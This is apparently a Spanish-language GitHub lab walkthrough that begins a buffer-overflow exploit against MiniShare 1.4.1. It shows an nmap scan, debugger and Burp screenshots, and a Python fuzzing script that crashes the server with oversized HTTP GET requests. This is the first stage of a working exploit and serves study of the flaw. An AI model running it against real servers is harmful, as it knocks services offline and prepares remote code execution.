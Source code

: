 # BUFFEROVERFLOW-MINISHARE-1.4.1
***
Se procedera a realizar un desdoblamiento de buffer con el software MINISHARE 1.4.1 habrimos una ventana emergente al lado de nuestro tilix para poder trabajar, usamos el siguiente comando, colacando la IP de la maquina vulnerable.
***
``` 
rdesktop " IP 192.168.a.b"  -u user -p paswword
```
****
### Screenshot
![inicio](https://user-images.githubusercontent.com/104048850/180593311-1796279a-4a4f-4ee8-8fae-baa47898a6e4.png)
Procedemos a realizar un escaneo de vulnerabilidades 
``` 
nmap 192.168.72.135 -sV

```
***
Podemos observar los puertos de la maquina vulnerable sin ejecutar el programa 
***
### Screenshot
![nmap](https://user-images.githubusercontent.com/104048850/180593535-955c4085-6369-4afb-b5e7-dd56e463c24f.png)
***
Ahora realizaremos el escaneo ejecutando el programa minishare usando la herramiento immunity debugger
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593763-736524cd-0f76-4ce6-9894-0780023678ad.png)

Para ver que comando vamos a usar, utilizaremos burpsuite y un proxy 
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593888-219158db-ad4b-454e-a6e5-2aa429d6c417.png)
***
Ahora  ejecutamos el siguinte script  para ver la capacidad del buffer 

```
#!/usr/bin/python3.8
# This is a Proof of concept about BufferOverflow vulnerability in MiniShare 1.4.1

# Part 1 of proof of concept by Vry4n
# This script is intended to discover the size of the buffer
import socket

FUZZ = ""

# While true increase the variable FUZZ by adding 100 "A" until the program crashes
while True:
    FUZZ += "A" * 100
    print("Fuzzing with {} bytes".format(len(FUZZ)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(("192.168.72.135", 80))
    # from a web proxy capturing the HTTP GET Request, we got this line "GET / HTTP/1.1" This is the vulnerable section
    s.send(b"GET " + FUZZ.encode() + b"HTTP/1.1\r\n\r\n")
    s.recv(1024)
    s.close()

```


